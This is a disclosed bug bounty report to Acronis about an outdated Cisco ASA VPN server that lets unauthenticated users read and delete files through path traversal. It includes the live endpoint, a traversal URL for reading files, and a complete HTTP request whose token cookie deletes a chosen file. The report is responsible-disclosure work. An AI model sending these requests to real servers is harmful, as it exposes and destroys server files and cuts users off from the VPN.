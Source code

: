 # Local File Disclosure /Delete On [us-az-vpn.acronis.com]

## Report Details
- **Report ID**: 924407
- **URL**: https://hackerone.com/reports/924407
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-07-15T13:01:14.953Z
- **Disclosed**: 2021-06-22T14:47:39.234Z

## Reporter
- **Username**: 10nf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
Cisco ASA VPN server hosted on

* https://us-az-vpn.acronis.com


was found to be using an outdated version that suffers from a Local File Disclosure /Delete vulnerability. Through this vulnerability an unauthenticated remote attacker can read and delete the contents of any file stored on the VPN server without authentication; including the VPN "lua" source code files .
This vulnerability can delete any file and break the vpn , so it should be carefully tested
The files will be restored after VPN restart


##Technical details:
### Affected Endpoint for delete :

* https://us-az-vpn.acronis.com/+CSCOE+/session_password.html


```Affected Cookie Parameter: token```
```Request Method: GET```

### Affected Endpoint for read files:

* https://us-az-vpn.acronis.com/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../

```Affected Cookie Parameter: textdomain```
```Request Method: GET```
{F908308}


This vulnerability is critical and can't be tested on production environment as it will break the VPN by deleting any file , so I tested on local environment .

We need to verify that the vulnerability exists :

* Firstly I downloaded the vulnerable code and compared it with the code from local environment , and they were identical
{F908308}
* Secondly, When this path exists +CSCOE+/session_password.html this means the vulnerability isn't patched , and if the response is 404 that means the vulnerability is patched

{F908309}

# Exploiting the vulnerability on local environment :
* Trying to download a file :
```
https://192.168.1.100/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../
```
{F908307}

* Exploit the vulnerability using this request :
```
GET /+CSCOE+/session_password.html HTTP/1.1
Host: 192.168.1.100
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Cookie: token=../../../../../../+CSCOE+/wrong_url.html
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

The file is read and stored in webvpn cookie and then deleted 
{F908305}

* Trying to read the file again after delete :

```
https://192.168.1.100/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../
```

{F908306}

## Impact

The vulnerability allows a remote unauthenticated attacker to read and download files from Cisco ASA VPN server, thus an attacker can use the vulnerability to read and delete internal files from the server such as:

* The VPN's LUA source code files
* Delete any file
* Break the vpn web portal
* Prevent users from authenticate via web portal

## Attachments
- delete_file.png
- file_after_delete.png
- file_before_delete.png
- lfd.png
- password.png
